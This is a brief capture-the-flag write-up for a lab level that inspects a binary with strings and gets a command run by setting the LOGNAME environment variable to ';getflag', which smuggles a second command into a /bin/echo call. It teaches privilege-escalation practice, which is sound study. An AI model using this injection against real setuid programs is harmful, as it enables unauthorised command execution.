 <h1 align="center"> level04 </h1>

```shell
ls -la
```

We have one file:
```level07```

```shell
strings level07
```
The important lines:
```
LOGNAME
/bin/echo %s
```

We can try to modify the env var ```LOGNAME```
```
export LOGNAME="getflag"
```

```
./level07
```
But it print getflag, so the binary print the content of the env var, we can try this:
```
export LOGNAME=";getflag"
```

It print the content of getflag command, it work !
